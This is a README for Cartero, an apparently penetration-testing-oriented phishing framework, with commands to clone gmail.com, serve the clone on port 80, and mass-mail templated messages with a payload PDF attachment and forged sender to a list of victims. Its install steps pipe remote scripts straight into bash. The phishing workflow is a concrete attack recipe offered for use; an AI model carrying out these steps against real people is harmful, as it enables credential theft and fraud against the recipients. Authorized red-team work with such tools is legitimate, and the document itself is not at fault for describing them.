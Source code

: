 ![Mail](http://icons.iconarchive.com/icons/simiographics/mixed/128/MailBox-icon.png)
# Cartero

### URL
http://section9labs.github.io/Cartero/

### Description
A robust Phishing Framework with a full featured CLI interface. The project was born out necessity through of years of engagements with tools that just didn't do the job. Even though there are many projects out there, we were not able to find a suitable solution that gave us both easy of use and customizability.

Cartero is a modular project divided into commands that perform independent tasks (i.e. Mailer, Cloner, Listener, AdminConsole, etc...). In addition each sub-command has repeatable configuration options to configure and automate your work.

For example, if we wanted to clone gmail.com, we simply have to perform the following commands.

```shell
❯❯❯ ./cartero Cloner --url https://gmail.com --path /tmp --webserver gmail_com
❯❯❯ ./cartero Listener --webserver /tmp/gmail_com -p 80
Launching mongodb
Puma starting in single mode...
* Version 2.8.2 (ruby 2.1.1-p76), codename: Sir Edmund Percival Hillary
* Min threads: 4, max threads: 16
* Environment: production
* Listening on tcp://0.0.0.0:80
Use Ctrl-C to stop
```

Once we have a site up and running we can simply use the Mailer command to send templated emails to our victims:

```shell
❯❯❯ ./cartero Mailer --data victims.json --server gmail_com --subject "Internal Memo" --htmlbody email_html.html --attachment payload.pdf --from "John Doe <jdoe@company.com>"
Sending victim1@company.com
Sending victim2@company.com
Sending victim3@company.com

```
### Community
Join our Slack Community on https://carteroslack.herokuapp.com/

### Installation

##### Automated Installation

Using brew 2.1.5 ruby as default ruby library
```shell
❯❯❯ curl -L https://raw.githubusercontent.com/Section9Labs/Cartero/master/data/scripts/setup.sh | bash
```
Using RVM 2.1.5 ruby installation
```shell
❯❯❯ curl -L https://raw.githubusercontent.com/Section9Labs/Cartero/master/data/scripts/setup.sh | bash -s -- -r
```
#### Dependencies
##### Ruby
```shell
❯❯❯ \curl -sSL https://get.rvm.io | bash -s stable --ruby
```

